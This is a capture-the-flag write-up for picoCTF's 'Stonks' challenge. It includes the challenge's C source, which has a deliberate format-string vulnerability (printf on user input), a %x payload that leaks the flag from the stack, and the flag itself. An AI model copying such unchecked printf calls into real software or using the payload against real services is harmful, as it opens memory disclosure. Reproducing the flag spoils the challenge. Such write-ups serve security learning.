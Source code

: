 # Description

![Screenshot from 2023-02-19 12-10-17](https://user-images.githubusercontent.com/115702866/219933189-77e90bb0-e75a-4fa1-86f6-4dcaddd90f3f.png)

# Solution 

First we run the program.

```t
youguess@youguess-Inspiron-14-5410-2-in-1:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
asdf;lkj
Buying stonks with token:
asdf;lkj
Portfolio as of Sun Feb 19 06:44:30 UTC 2023


1 shares of JSV
6 shares of NWQ
16 shares of YCAU
6 shares of Z
27 shares of OI
76 shares of ZZON
3 shares of MF
98 shares of SHS
57 shares of UPHS
305 shares of KZ
Goodbye!
```

On giving an input of 1 we are giving the option of buying stocks by entering an api token. Entering a random api token results in the purchase of shares 
of varying quantities.

```t
youguess@youguess-Inspiron-14-5410-2-in-1:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
2

Portfolio as of Sun Feb 19 06:47:08 UTC 2023


You don't own any stonks!
Goodbye!
```
Trying to view my portfolio by entering 1 results in the above message being displayed.
I then checked the source code providedF.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}
```
In the function buy_stonkso we see that is reading the flag(api) from the file 'api' and storing it in the stack 'api_buf'. It then aks the user to input 
their api token which is stored in the stack 'user_buf' and then prints it. After doing some reading I found out that this is a type of string format 
vulnerability. We can exploit this by inputting %x repeatedly to read the api from the stack to extract the hexadecimal values.
```t
youguess@youguess-Inspiron-14-5410-2-in-1:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x 
Buying stonks with token:
9b12390804b00080489c3f7ee4d80ffffffff19b10160f7ef2110f7ee4dc709b1118019b123709b123906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336fff6007d
Portfolio as of Sun Feb 19 13:27:06 UTC 2023


1 shares of THT
1 shares of W
7 shares of QTDX
11 shares of JUN
4 shares of BQB
60 shares of H
14 shares of SR
95 shares of VRI
152 shares of Y
150 shares of SF
1478 shares of KIR
Goodbye!
```
Converting this hexadecimal to ASCII we get text that vaguely resembles the flag. I realised that the bytes are not in the right order as we extracted them from a stack in the top down uproach. After rearranging them in the right order the obtained flag was
Required flag: picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}


